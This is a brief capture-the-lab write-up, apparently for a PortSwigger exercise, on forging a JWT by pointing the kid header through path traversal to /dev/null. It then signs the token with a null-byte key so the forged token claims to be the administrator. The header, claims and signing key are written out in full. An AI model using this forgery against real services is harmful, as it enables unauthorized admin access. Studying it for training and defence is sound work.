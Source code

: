 # Lab: JWT authentication bypass via kid header path traversal

Description : In order to verify the signature, the server uses the `kid` parameter in JWT header to fetch the relevant key from its filesystem.

End goal :  forge a JWT that gives you access to the admin panel at /admin, then delete the user carlos.

creds : `wiener:peter`

Analysis :

- the parameter `kid` is vulnerable to `lfi` since it used to map the key on the file system within the server
- so we used it to make this parameter points to null using `"kid":"../../../../dev/null"`
- and manipulated our claims to imporsonate the administrator
- and signed our token with key which it's value is the value of *base64 encoding of the null byte*

## Key used to sign the malicious web jwt

>{
>
> "kty": "oct",
>
> "kid": "e43abf7b-928d-4d1b-8661-b695d3967535",
>
> "k": "AA=="
>
>}

---------

## malicious jwt

### Headers

>{
>
> "kid": "../../../../../../../dev/null",
>
> "alg": "HS256"
>}

### claims

>{
>
> "iss": "portswigger",
>
> "exp": 1726963275,
>
> "sub": "administrator"
>
>}
